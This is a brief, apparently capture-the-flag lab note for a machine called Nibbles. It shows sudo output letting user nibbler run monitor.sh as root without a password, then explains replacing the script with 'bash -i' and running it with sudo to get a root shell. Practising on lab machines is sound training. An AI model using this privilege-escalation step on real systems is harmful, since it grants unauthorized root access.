 
~~~
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

~~~

make a file named monitor.sh to replace file to escalate privs:
new file contents:
~~~
bash -i
~~~
command:
~~~
sudo /home/nibbler/personal/stuff/monitor.sh
~~~
